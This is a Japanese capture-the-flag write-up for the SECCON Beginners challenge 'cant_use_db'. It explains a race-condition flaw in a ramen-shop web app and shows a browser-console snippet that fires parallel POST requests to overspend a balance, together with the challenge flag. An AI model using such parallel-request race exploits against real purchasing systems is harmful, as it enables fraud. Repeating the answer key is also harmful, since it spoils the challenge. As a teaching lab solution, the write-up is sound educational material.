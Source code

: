 # cant_use_db

## 問題文
Can't use DB.  
I have so little money that I can't even buy the ingredients for ramen.  
🍜  
[https://cant-use-db.quals.beginners.seccon.jp/](https://cant-use-db.quals.beginners.seccon.jp/)  
[cant_use_db.tar.gz](files/cant_use_db.tar.gz) 1cded20dd165e1eca3cc12bee2010e65fe6ba9ea  

## 難易度
**Medium**  

## 作問にあたって
通常のrace condition問です。  
もう少し時間についてシビアにしたかったですが、通信環境が悪い方々も解けるようsleepを挿入しました。  

## 解法
ソースを見ると、ユーザ情報はファイル管理のようだ。  
所持金以上のものを買うサイトから見てもrace conditionを狙う。  
ソースを見ると購入処理で`/buy_noodles`、`/buy_soup`へPOSTを投げているようだ。  
並列にPOSTを投げてやればよい。  
```bash
$ python solver.py
~~~
ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
```
ブラウザコンソールで以下を実行した後`/eat`へアクセスしてもよい。  
```javascript
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
```

## ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}